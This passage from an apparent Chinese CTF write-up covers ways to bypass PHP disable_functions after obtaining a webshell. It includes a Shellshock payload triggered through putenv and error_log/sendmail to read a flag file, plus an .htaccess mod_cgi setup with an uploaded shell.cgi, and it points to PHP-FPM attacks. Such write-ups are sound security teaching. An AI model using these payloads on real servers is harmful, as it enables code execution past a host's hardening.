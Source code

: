 这个依旧不能使用交互式shell，很多函数被禁用了（详情看phpinfo的**disable_functions**）。

现在的问题是如何导入环境变量，来执行类似的东西：`env x='() { :; }; echo vulnerable' bash -c "echo this is a test"`

仔细看了一下**disable_functions**发现并没有禁用putenv函数，那后面的操作就已经很简单了。

```php
<?php
    putenv("PHP_test=() { :; }; tac /flag >> test");
    error_log("",1);
```

为什么要用error_log函数：`error_log("",1);`是发送错误信息，但是用的是发送邮件的系统命令`sendmail`。

这里猜测，`sendmail`命令是Shell fork 出来的一个子程序，然后子程序继承了环境变量，直接触发了ShellShock。

### 1.3 Apache Mod CGI

> 1.Mod CGI就是把PHP做为APACHE一个内置模块，让apache http服务器本身能够支持PHP语言，不需要每一个请求都通过启动PHP解释器来解释PHP.
> 2.它可以将cgi-script文件或者用户自定义标识头为cgi-script的文件通过服务器运行.
> 3.在.htaccess文件中可定制用户定义标识头
> 4.添加Options +ExecCGI，代表着允许使用mod_cgi模块执行CGI脚本
> 5.添加AddHandler cgi-script .cgi，代表着包含.cgi扩展名的文件都将被视为CGI程序
>
> .htaccess
>
> ```
> Options +ExecCGI
> AddHandler cgi-script .cgi
> ```

这个还是不能使用交互式shell。

shell.cgi:（需要给执行权限）

```bash
#! /bin/sh
echo; /readflag
```

> 这些文件都不要在windows上面编辑，换行符不一样会报错。

传上去之后直接访问shell.cgi即可。

### 1.4 PHP-FPM

> 正常情况下, PHP-FPM 是不会对外开放的。在有 webshell 之后，这就变得不一样了。学习通过攻击 PHP-FPM 达到 Bypass 的目的。
>
> [攻击PHP-FPM 实现Bypass Disable Functions - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/75114351?from_voters_page=true)
